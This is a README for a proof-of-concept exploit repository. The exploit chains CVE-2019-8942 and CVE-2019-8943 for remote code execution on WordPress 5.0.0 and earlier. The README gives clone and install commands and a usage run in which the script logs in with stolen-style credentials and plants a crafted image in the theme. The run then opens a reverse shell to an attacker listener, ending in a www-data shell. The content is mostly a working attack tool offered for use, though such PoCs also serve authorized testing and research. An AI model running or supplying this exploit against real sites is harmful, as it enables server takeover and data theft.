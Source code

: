 # WordPress 5.0.0 Crop-image Remote Code Execution
## Description

The exploit code leverages the [CVE-2019-8943](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-8943) and [CVE-2019-8942](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8942/) vulnerabilities to gain remote code execution on WordPress 5.0.0 and <= 4.9.8.

## Installation

```
git clone https://github.com/ret2x-tools/poc-wordpress-5.0.0.git
pip install -r requirements.txt
```

## Usage

```
root@parrot:~# python3 poc.py --url http://www.wpsite.com -u kwheel -p qwerty -lhost 10.10.6.2 -lport 443
[*] Authenticating to wordpress
[+] Login successful
[*] Uploading image
[+] Image uploaded
[*] Updating image
[*] Including image into theme
[*] Creating post
[*] Starting listener on 443
[*] Executing reverse shell
bash: cannot set terminal process group (921): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blog:/var/www/wordpress$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## References

[https://blog.sonarsource.com/wordpress-image-remote-code-execution/](https://blog.sonarsource.com/wordpress-image-remote-code-execution/)

[https://www.youtube.com/watch?v=6Sxs4vQJK\_s](https://www.youtube.com/watch?v=6Sxs4vQJK_s)

